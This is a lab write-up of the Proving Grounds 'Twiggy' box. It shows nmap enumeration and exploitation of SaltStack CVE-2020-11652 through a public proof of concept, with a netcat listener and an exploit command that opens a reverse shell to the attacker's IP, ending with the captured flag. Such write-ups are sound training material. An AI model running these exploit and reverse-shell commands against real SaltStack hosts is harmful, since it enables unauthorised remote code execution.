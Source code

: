 ```yaml
---
aliases:
  - twiggy
tags:
  - pg-playground
  - linux
  - enumeration
  - exploitation
os: Linux
difficulty: Warm up
date: 2025-04-09
status: owned
---
```

### 1. Box Summary

| Field          | Value            |
| -------------- | ---------------- |
| Name           | Twiggy           |
| IP             | `192.168.145.62` |
| OS             | Linux            |
| Difficulty     | Medium           |
| Date Completed | 9 April 2025     |
| Exploited Via  | RCE              |
| Flags Captured | ✅ Root           |

### 2. Enumeration

Quick Nmap Scan just to see what's going on as usual:

```
nmap -sCV -p- -T4 192.168.145.62
```

Here's the report:

```
Nmap scan report for 192.168.145.62
Host is up (0.043s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-title: Home | Mezzanine
|_http-server-header: nginx/1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Site doesn't have a title (application/json).
|_http-open-proxy: Proxy might be redirecting requests

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.93 seconds
```

Of course we open the port 80 first
![[images/Twiggy-1744177123093.jpeg]]

Oh look there's an admin interface button

![[images/Twiggy-1744178077284.jpeg]]

After trying out the admin... nah it aint that easy. So we take a look at port 8000, time to do some research on ZeroMQ ZMTP 2.0 as well 

![[images/Twiggy-1744178200043.jpeg]]

Apparently we have something good on [exploitDB](https://www.exploit-db.com/exploits/48421) , let's just run Saltstack 3000.1 - Remote Code Execution like some script kiddie, and my guy actually uploaded a [poc](https://github.com/Al1ex/CVE-2020-11652/blob/main/CVE-2020-11652.py) for it... good stuff

🔹 Create & Activate Virtual Environment
```
python3 -m venv salt-venv
source salt-venv/bin/activate
```

🔹 Install Dependencies
```
pip install salt==3002 msgpack PyYAML pyzmq jinja2 tornado requests
```

We will prep it by noting down:
- **Kali IP**: `192.168.45.197`
- **Target IP**: `192.168.145.62`
- **Listener Port**: `80`

🔹 Set up listener
```
nc -lvnp 80
```

🔹 Run the exploit
```
python3 exploit.py \
  --master 192.168.145.62 \
  --port 4506 \
  --shell-LHOST 192.168.45.197 \
  --shell-LPORT 80
```

![[images/Twiggy-1744181043545.jpeg]]

Listener side:

![[images/Twiggy-1744181018801.jpeg]]

FLAG:
```
02e2283f7e95835128a4a48a72dfd629
```
